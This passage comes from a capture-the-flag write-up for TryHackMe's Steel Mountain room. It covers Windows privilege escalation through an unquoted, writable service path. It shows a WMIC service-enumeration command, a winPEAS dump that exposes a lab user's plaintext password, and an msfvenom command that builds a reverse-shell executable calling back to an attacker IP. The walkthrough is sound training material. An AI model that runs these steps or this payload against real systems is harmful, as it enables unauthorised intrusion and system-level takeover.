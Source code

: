```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "C:\windows\\" |findstr /i /v """
```
The above command uses the **Windows Management Instrumentation Command-line (WMIC)** to retrieve information about services installed on a Windows system. It then filters the output to display only services that start automatically, while excluding services located in the C:\Windows directory and services with empty pathnames.

+ **Additional credential leakage (winPEAS)**:

```
Checking Credential manager
  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-manager-windows-vault
    [!] Warning: if password contains non-printable characters, it will be printed as unicode base64 encoded string


     Username:              STEELMOUNTAIN\bill
     Password:               PMBAf5KhZAxVhvqb
     Target:                STEELMOUNTAIN\bill
     PersistenceType:       Enterprise
     LastWriteTime:         9/27/2019 5:22:42 AM
```

As you can see we are provided with a list of vulnerable paths that we might be able to exploit.  And in this case, we are going to exploit the **Advanced SystemCare** path.  We should also make sure that we can actually manipulate the service as needed.  We can do this with the following command to see if the process can actually be stopped and started.

```
C:\Users\bill\Desktop>sc qc AdvancedSystemCareService9
sc qc AdvancedSystemCareService9
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: AdvancedSystemCareService9
        TYPE               : 110  WIN32_OWN_PROCESS (interactive)
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
        LOAD_ORDER_GROUP   : System Reserved
        TAG                : 1
        DISPLAY_NAME       : Advanced SystemCare Service 9
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

### 3.3 Creating a shell:<a name="33-creating-a-shell"></a>

Now that we have determined we have start and stop control of the program we will need to create an msfvenom payload and name it Advanced.exe.

```
┌──(mithlonde💀kali)-[~/ctf/tryhackme/steel-mountain]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.48.183 LPORT=666 -f exe > Advanced.exe  
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
```
